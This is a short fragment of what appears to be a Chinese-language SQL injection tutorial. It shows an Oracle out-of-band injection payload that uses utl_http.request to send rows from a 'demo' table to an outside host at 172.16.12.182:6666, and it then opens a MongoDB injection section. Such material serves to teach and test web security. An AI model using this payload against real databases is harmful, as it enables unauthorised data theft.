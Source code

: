 ```sql
```

```sql
#payload：
`?id=-1 and utl_http.request('http://172.16.12.182:6666/?data='||(select cast(id||'~'||name||'~'||sex||'~'||age as varchar(4000)) from (select id,name,sex,age,rownum as LIMIT from demo) where LIMIT=4))=1 -- +
```



![img](websafe/clip_image002.jpg)

![img](websafe/clip_image004.jpg)

### Mongodb注入

查询 db.setname().find().pretty()查询
